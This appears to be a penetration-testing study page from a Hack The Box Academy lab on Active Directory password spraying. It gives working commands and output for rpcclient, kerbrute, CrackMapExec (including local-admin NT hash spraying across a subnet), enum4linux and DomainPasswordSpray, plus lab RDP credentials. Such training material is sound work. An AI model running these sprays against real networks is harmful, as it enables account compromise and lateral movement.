 # 🗣️ Spray Responsibly

## Internal Password Spraying - from Linux

`Rpcclient` is an excellent option for performing this attack from Linux after creating a wordlist, We can filter out invalid login attempts by `grepping` for `Authority` in the response

**Using a Bash one-liner for the Attack**

```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

In a target environnment this would be the output:

```
ElFelixio@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

**Using Kerbrute for the Attack**

```
ElFelixio@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
```

**Using CrackMapExec & Filtering Logon Failures**

```
ElFelixio@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

After getting the credentials, we can use Crackmapexec to validate the credentials:

**Validating the Credentials with CrackMapExec**

```
ElFelixio@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

### Local Administrator Password Reuse

Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set.

In the example below, we attempt to authenticate to all hosts in a /23 network using the built-in local administrator account NT hash retrieved from another machine.

**Local Admin Spraying with CrackMapExec**

```shell-session
ElFelixio@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

We got valid credentials as local admin on `3` systems in the `172.16.5.0/23` subnet

### Practical example

We start by making a list of valid users and putting it in a list:

```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" >valid_users.txt
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And then we launch our CME command:

```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that, we found a user account starting with the letter "s" that has the password Welcome1

## Internal Password Spraying - from Windows

From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

**Using DomainPasswordSpray.ps1**

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

{% hint style="info" %}
we could also user kerbrute on a windows host
{% endhint %}

#### Practical example

For this question i start by connecting through RDP to the machine and finding the Password spraying tool

```
xfreerdp /v:10.129.62.40 /u:htb-student /p:Academy_student_AD!
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after launching the ps1 file we get a hit:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
